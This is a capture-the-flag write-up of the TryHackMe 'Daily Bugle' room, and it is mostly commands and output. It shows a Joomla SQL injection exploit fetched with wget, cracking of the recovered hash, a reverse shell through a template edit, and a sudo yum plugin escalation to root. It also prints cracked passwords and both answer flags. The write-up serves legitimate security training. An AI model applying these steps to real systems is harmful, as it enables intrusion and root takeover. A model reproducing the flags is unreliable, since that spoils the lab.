 ```yaml
---
title: TryHackMe - Daily Bugle Writeup
description: My writeup on daily bugle box.
categories:
 - tryhackme
tags: tryhackme
---
```


Hi all, let's pwn this.

Box rate is hard but i dont think it's a hard box, more like medium.

You can find the machine there > [Daily Bugle](https://tryhackme.com/room/dailybugle){:target="_blank"}

Let's start as always with a nmap scan.

```bash
$ ip=10.10.97.144
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-21 17:19 EEST
Nmap scan report for 10.10.97.144 (10.10.97.144)
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)
```

Let's start the enumeration with port 80, we can see there a joomla site running :

```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```

Let's run [joomscan](https://github.com/rezasp/joomscan){:target="_blank"} on it.

```bash
$ joomscan -u http://$ip/
..data..
[+] Detecting Joomla Version
[++] Joomla 3.7.0
```

Let's search for exploits on this version.

```bash
$ searchsploit joomla 3.7.0
Joomla! 3.7.0 - 'com_fields' SQL Injection  | php/webapps/42033.txt                                                                                                 
```

Bingo, `sqlmap` way takes lot of time, so i found an alternative [exploit](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py){:target="_blank"}

Let's run it.

```bash
$ wget -q https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
$ python joomblah.py http://$ip/
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Perfect, we have `jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

Let's crack his hash.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
```

Let's login in, joomla's administrator panel by default is there `/administrator`.

Now for reverse shell, we can edit a template & add our shell in.

![](https://i.ibb.co/VHVfqwC/Screenshot-2.png)

![](https://i.ibb.co/2gzvyhR/Screenshot-3.png)

![](https://i.ibb.co/7pWsHYW/Screenshot-4.png)

Add your shell in and press `save` & `template preview`

![](https://i.ibb.co/yXn3XPM/Screenshot-5.png)

And we have shell!

```bash
$ nc -lvp 5555
listening on [any] 5555 ...
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ 
```

Now we can see another user there :

```bash
bash-4.2$ ls -la /home
total 0
drwxr-xr-x.  3 root     root      22 Dec 14 14:02 .
dr-xr-xr-x. 17 root     root     244 Dec 14 15:40 ..
drwx------.  2 jjameson jjameson  99 Dec 15 19:47 jjameson
```

We can pretty easy find his password under `/var/www/html` into `configuration.php` file.

`public $password = 'nv5uz9r3ZEDzVjNu';`

```bash
bash-4.2$ su - jjameson
Password: nv5uz9r3ZEDzVjNu
[jjameson@dailybugle ~]$ 
```

Perfect, now privesc to root is really simple, we just need to check `sudo -l`.

```bash
[jjameson@dailybugle ~]$ sudo -l
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Let's check [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), let's follow what it says.

```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
cat >$TF/x<<EOF
> [main]
[main]
> plugins=1
plugins=1
> pluginpath=$TF
pluginpath=$TF
> pluginconfpath=$TF
pluginconfpath=$TF
> EOF
EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
cat >$TF/y.conf<<EOF
> [main]
[main]
> enabled=1
enabled=1
> EOF
EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
cat >$TF/y.py<<EOF
> import os
import os
> import yum
import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
requires_api_version='2.1'
> def init_hook(conduit):
def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
  os.execl('/bin/sh','/bin/sh')
> EOF
EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami; id
whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

Perfect, let's read the flags now.

```bash
sh-4.2# cat /root/root.txt
cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
sh-4.2# cat /home/jjameson/user.txt
cat /home/jjameson/user.txt
27a260fe3cba712cfdedb1c86d80442e
```

Not really hard haha, See you!

